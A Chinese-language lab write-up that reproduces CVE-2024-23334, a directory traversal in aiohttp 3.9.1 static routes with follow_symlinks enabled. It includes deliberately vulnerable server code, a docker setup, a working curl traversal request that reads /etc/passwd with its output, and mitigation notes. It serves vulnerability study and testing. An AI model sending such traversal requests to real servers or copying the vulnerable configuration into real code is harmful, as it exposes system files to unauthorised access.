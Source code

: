 # aiohttp 3.9.1 静态路由follow_symlinks导致目录穿越 (CVE-2024-23334)

aiohttp 是一个用于 asyncio 和 Python 的异步 HTTP 客户端/服务器框架。
使用aiohttp作为Web服务器并配置静态路由时，需要指定静态文件的根路径。
此外，选项`follow_symlinks`可用于确定是否遵循静态根目录之外的符号链接。
当`follow_symlinks`设置为 `True` 时，不会进行验证来检查读取的文件是否位于根目录内。
这可能会导致目录遍历漏洞，从而导致对系统上的任意文件进行未经授权的访问，即使符号链接不存在也是如此。
建议缓解措施是禁用 `follow_symlinks` 并使用反向代理。版本 3.9.2 修复了此问题。

参考链接：

- https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b
- https://github.com/aio-libs/aiohttp/pull/8079
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/ICUOCFGTB25WUT336BZ4UNYLSZOUVKBD/
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/XXWVZIVAYWEBHNRIILZVB3R3SDQNNAA7/

## 环境搭建

存在漏洞的代码

```python
# examples/server_simple.py
from aiohttp import web

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])

if __name__ == '__main__':
    web.run_app(app)

# 访问 https://www.jetbrains.com/help/pycharm/ 获取 PyCharm 帮助

```

执行如下命令启动一个aiohttp:3.9.1：

```
docker compose up -d
```

## 漏洞复现

```bash
➜  CVE-2024-23334 git:(master) ✗ curl --path-as-is http://172.17.0.2:8080/static/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

```
